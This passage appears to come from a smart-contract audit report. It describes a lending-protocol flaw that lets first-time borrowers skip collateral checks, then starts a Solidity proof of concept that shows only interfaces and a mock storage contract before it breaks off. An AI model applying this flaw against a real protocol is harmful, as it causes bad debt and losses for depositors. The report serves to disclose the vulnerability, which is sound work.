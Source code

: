 -----

## Impact

  * **User Loss**: Allows first-time borrowers to bypass proper collateral validation, leading to undercollateralized positions and potential bad debt for the protocol.

-----

## Proof of Concept (PoC)

Below is a runnable Solidity PoC demonstrating the exploit. It includes simplified mock contracts and a test scenario replicating the vulnerability.

```solidity
pragma solidity 0.8.23;

interface IERC20 {
    function transfer(address to, uint256 amount) external returns (bool);
}

interface LTokenInterface {
    function accrueInterest() external;
    function borrowIndex() external view returns (uint256);
}

interface LErc20Interface {
    function borrow(uint256 amount) external returns (uint256);
}

contract LendStorageMock {
    mapping(address => mapping(address => BorrowMarketState)) public borrowBalances;

    struct BorrowMarketState {
        uint256 amount;
        uint256 borrowIndex;
    }

    function getBorrowBalance(address user, address lToken) external view returns (BorrowMarketState memory) {
        return borrowBalances[user][lToken];
    }

    function updateBorrowBalance(address user, address lToken, uint256 amount, uint256 borrowIndex) external {
        borrowBalances[user][lToken] = BorrowMarketState(amount, borrowIndex);
    }

    function addUserBorrowedAsset(address user, address lToken) external {}

    function distributeBorrowerLend(address lToken, address user) external {}

    function getHypotheticalAccountLiquidityCollateral(address user, address lToken, uint256 redeemTokens, uint256 borrowAmount)
        external view returns (uint256 borrowed, uint256 collateral) {
        // Mock: 800 USD collateral, 0 borrowed for first-time borrow
        return (0, 800e18); // 800 USD in 18-decimal format
    }

    function underlyingTolToken(address underlying) external view returns (address) {
        return underlying; // Simplified mapping
    }
}

```